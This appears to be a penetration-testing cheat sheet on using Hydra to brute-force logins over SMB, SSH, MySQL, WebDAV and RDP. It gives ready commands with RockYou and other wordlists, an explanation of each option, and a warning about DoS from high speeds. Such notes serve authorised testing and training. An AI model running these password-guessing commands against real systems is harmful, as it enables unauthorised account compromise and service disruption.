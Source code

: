 # Hydra

Hydra is extremely functional for brute-forcing MULTIPLE different protocols. [ **[Docs](https://rodtrent.substack.com/p/using-kali-linux-and-hydra-for-attack)** ]

You may need to unzip the RockYou wordlist: `gzip -d /usr/share/wordlists/rockyou.txt.gz .`

Be very careful with your brute-force speed. You could crash the system or DoS it. 
- The `-t` (tasks) options sets the number of connects in parallel (default is 16, for reference)
- You could set `-t 2` or `-t 3` and see if that plays nicer.  Hydra actually recommends `-t 1` through `-t 4`.


## SMB

`hydra -l admin -P /usr/share/wordlists/rockyou.txt [target IP] smb`

## SSH

`hydra -l student -P rockyou.txt [ip] ssh`

## MySQL

`hydra -l root -P /usr/share/metasploit_framework/data/wordlists/unix_passwords.txt [target ip] mysql`

## WebDAV

`hydra -L /.../common-users.txt -P  /.../common-passwords.txt [target ip] http-get /webdav/`

**Options:**
- `-L` : Indicates the "Login" (capital: file of multiple; lower case for single)
- `-P` : Indicates the "Passwords" (capital: file of multiple; lower case for single)
- `http-get` : Indicates the protocol to be used
- `/webdav/` : Indicates the directory where hydra can find the authentication mechanism

## RDP

`hydra -L users.txt -P passwords.txt [target ip] rdp -s 3333`

**Option:**
- `-s` : service port (if different than the default)
